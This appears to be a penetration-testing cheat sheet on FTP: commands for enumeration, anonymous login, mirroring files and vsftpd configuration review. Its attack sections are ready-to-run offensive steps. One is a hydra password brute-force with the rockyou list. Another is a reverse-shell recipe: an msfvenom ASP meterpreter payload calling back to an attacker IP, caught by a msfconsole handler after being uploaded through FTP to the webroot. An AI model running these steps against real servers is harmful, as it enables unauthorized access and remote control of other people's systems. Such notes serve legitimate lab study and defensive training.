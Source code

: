 ## FTP
File Transfer Protocol
- Protocol to transfer files between hosts
- port 21
- can be anonymous or authenticated
- login anonymous if allowed
- commonly used for webserver

### Good to know
- binary mode sends files as they are
- ascii mode converts files to ascii
- switch between modes with `binary` and `ascii`


## FTP Commands
```sh
ftp 10.129.228.195
-h help
```
#### Download ALL Files at once
```shell
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
tree . #shows the directory structure if we do it in that created folder
```

#### Upload a file
```shell 
touch testupload.txt # on attacker
put testupload.txt #in ftp>
```
#### On ftp shell:
```sh
help #hilfe
dir #show directory
get #download file
cd #change directory
put /home/test/test.txt #upload file
```
### FTP Enumeration

#### Nmap
```sh
nmap -sV -sC 192.254.1.1 -p21 #default scan find already anonymous login is allowed and read or writeable
```
```shell
status #show some infos
debug #show debug info
trace #show if tracing is on
ls # list directories
```


#### searchsploit 
femitter is a ftp server type name
```sh
searchsploit femitter #search for exploits
```

### FTP Annonymous Login
if anonymous ftp login allowed then user username: anonymous
```
username: anonymous
password: any
```

### Login bruteforce
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.255.1.231 ftp #bruteforce ftp with rockyou list
-l # username 
-P # passwordlist target protocol
```
```
Google for ftp default login data with the target server version / ftp client name:
- admin: password
- admin: admin
- etc. depending on ftp server version
```
### Reverse Shell over FTP  

1. Create reverse shell with msfvenom
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.254.1.229 LPORT=4444 -f asp > shell.asp

#asp: if the target is a asp server
```
2. That creates an asp shell script which can be
3. Accepting the shell with metasploit:
```shell
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.254.1.228; set lport 4444; run -j"
```
4. Put  the shell.asp in webroot of ftp and try to open in browser.
5. Than open it in browser to execute the shell.

## vsFTP
is a very often used FTP server here is the configuration parameters descriped
- vsFTP:  https://security.appspot.com/vsftpd.html  
- conf expl: http://vsftpd.beasts.org/vsftpd_conf.html

#### Enumeration
```sh
cat /etc/vsftpd.conf | grep -v "#" #show vsftpd config
cat /etc/ftpusers #show ftp users
 
```

#### Dangerouse Configurations
```
Setting	Description
anonymous_enable=YES	        Allowing anonymous login?
anon_upload_enable=YES	        Allowing anonymous to upload files?
anon_mkdir_write_enable=YES	Allowing anonymous to create new directories?
no_anon_password=YES	        Do not ask anonymous for password?
anon_root=/home/username/ftp	Directory for anonymous.
write_enable=YES	        Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE?
```
